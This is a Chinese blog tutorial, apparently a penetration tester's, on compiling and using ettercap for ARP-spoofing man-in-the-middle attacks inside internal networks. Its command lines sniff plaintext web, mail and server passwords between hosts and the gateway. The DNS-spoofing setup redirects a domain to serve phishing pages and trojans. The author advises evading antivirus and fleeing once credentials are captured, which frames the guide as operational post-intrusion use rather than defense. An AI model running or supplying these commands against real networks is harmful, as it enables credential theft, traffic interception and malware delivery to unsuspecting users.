








# [Ettercap 基础使用](https://klionsec.github.io/2017/10/25/ettercap/)

## 0x01 关于ettercap

> 1. ettercap 确实已经非常老了,也确实是那个时代的经典,而且差不多三四年这个项目也都没再更新过了
> 2. 对于一些防护并不是特别好的内网,依然非常实用,千万不要觉得工具老就没有它的应用场地,那样你就真的错了,如果真是这样,就不会有这么多的二次深度开发了
> 3. 大家可能也发现了,像这类的工具我基本都是在模拟真实的生产机器环境上编译安装的
> 4. 具体原因大家想必都很清楚,像这类基于二层的arp嗅探是没法直接在远程做的,毕竟不是直接处在目标的vpn内网中
> 5. socks代理再牛逼,它也只是个基于端口的四层代理,并不是vpn,所以,是没法直接在本地嗅远程的arp的,至于GRE隧道,咱们抽空再另说
> 6. 话不多讲,直奔今天的主题,ettercap基础使用,注意,此次仅仅是基础使用


## 0x02 开启本地的路由转发

```shell
# echo 1 > /proc/sys/net/ipv4/ip_forward
# cat /proc/sys/net/ipv4/ip_forward
```


## 0x03 基础演示环境

```shell
CentOS release 6.9 (Final)  x86-64 ip: 192.168.3.4  接口名称: eth2  ettercap所在机器
win2008r2 			   ip: 192.168.3.23 
win7cn				   ip: 192.168.3.8
```


## 0x04 暂以centos 6.8 x86_64为例,编译安装 ettercap 0.8.2

```shell
# yum groupinstall "Development tools" -y
# yum install cmake ncurses ncurses-devel openssl openssl-devel gcc-c++ flex bison gtk2 gtk2-devel -y
# tar xf ettercap-0.8.2.tar.gz
# cd ettercap-0.8.2/bundled_deps/
# ls

# cd check/
# tar xf check-0.9.14.tar.gz
# cd check-0.9.14
# ./configure && make && make install
# echo $? && cd ../../

# cd curl/
# tar xf curl-7.41.0.tar.gz
# cd curl-7.41.0
# ./configure && make && make install
# echo $? && cd ../../

# cd libnet/
# tar xf libnet-1.1.6.tar.gz
# cd libnet-1.1.6
# ./configure && make && make install
# echo $? && cd ../../

# cd luajit/
# tar xf LuaJIT-2.0.3.tar.gz
# cd LuaJIT-2.0.3
# make && make install
# echo $? && cd ../../

# tar xf libpcap-1.5.3.tar.gz
# cd libpcap-1.5.3
# ./configure && make && make install
# echo $? && cd ../../

# cat INSTALL
# mkdir build
# cd build/
# cmake ../
# make && make install
# echo $? && cd
```

## 0x05 ettercap安装后的默认配置文件位置如下,修改配置文件,让其以root权限身份运行,一般嗅探都是在提权成功以后的动作,这样能嗅到的东西会更多一些

```shell
# cd /etc/ettercap/
# vi /etc/ettercap/etter.conf
 ec_uid = 0                
 ec_gid = 0
```


0x06 ettercap默认规则 [filter] 目录

```shell
# ll /usr/local/share/ettercap/
```




0x07 装完以后先简单测试下ettercap是否真正已经可用,尝试嗅下3.8到3.23之间的明文数据

```shell
# ettercap -Tqi eth2 -M arp:remote /192.168.3.8/ /192.168.3.23/
```




0x08 ettercap 选项功能简要说明

```shell
-M 进行中间人攻击,可自行指定用什么类型的中间人,如,arp,dhcp,icmp...
-o 不嗅探数据,单单只进行中间人欺骗
-T 建议使用文本模式,一般实战中基本是不会有图形界面给你的
-q 安静模式,减少输出
-D 把ettercap作为一个系统服务来运行,意思就是让它在后台跑,比较方便
-w 把监听的数据写到指定的pcap文件中 
-L 将所有流量写到指定的日志文件中
-l 被动记录
-i 指定要用于嗅探的网卡接口
-F 导入自定义数据包过滤规则文件
-P 导入插件,增强中间人攻击
-p 不启用网卡混杂模式,只嗅当前机器的各类明文数据
```


0x09 关于ettercap的其它更多详情,请自行参考工具自身帮助

```shell
# man ettercap
# ettercap -P list  查看ettercap内置的所有插件
```




0x10 只嗅探本机指定端口上的明文数据,如,各类web管理登陆密码[80,8080],如果是当前机器是个邮件服务器,无疑是极好的,起码不用再自己苦逼的到处搜集密码了,直接守住这儿慢慢抓密码就好了,在某些内网中通过这种方式来搜集密码,还是非常可行的

```shell
# ettercap -i eth2 -T -q -p -l local //25,80,110,143,8080 
# etterlog local.eci
```





0x011 只嗅探指定机器之间的明文通信数据

嗅探这个ip段范围和网关之间的通信数据,其实说白点就是想嗅探目标机器在一些公网站点上登陆的明文账号密码

```shell
# ettercap -T -q -i eth2  -L webadmin -M arp:remote /192.168.3.1/ /192.168.3.2-25/    
# etterlog webadmin.eci
```




嗅探3.220-251和3.3这台机器之间的所有明文通信数据,主要想快速拿到内网服务器的账号密码,所以,你实际挑内网机器的时候,最好有针对性,一旦拿到密码立马就跑路,这工具动静儿太大

```shell
# ettercap -Tq -i eth2  -L mail -M arp:remote /192.168.3.3/ /192.168.3.220-251/
# etterlog mail.eci
```


在目标内网中利用dns欺骗来针对性钓鱼挂马,马要免杀,页面也逼真,否则很容易被发现

```shell
# vi /etc/ettercap/etter.dns
  # microsoft sucks ;)找到这行
  # redirect it to www.linux.org
    demlution.com       A   192.168.3.23
    www.demlution.com   A   192.168.3.23
# ettercap -Tq -i eth2 -P dns_spoof  -M arp /192.168.3.1/ /192.168.3.3-100/
```





0x12 当然,ettercap绝非远远就这么点儿功用,来日方长,关于定制规则脚本以及其它的各类高级应用,考虑篇幅,我们后续再慢慢说

0x13 提前先来了解几个 ettercap 的简单规则脚本语法

```shell
search(where,what) 从字符串where中查找what，若找到则返回true
regex(where,regex) 从字符串where中匹配正则表达式regex，若找到则返回true
replace(what,with) 把字符串what替换成字符串with
log(what,where)    把字符串what记录到where文件中
msg(message) 	   在屏幕上显示出字符串message
exit() 		   退出
```

https://klionsec.github.io/tags/ettercap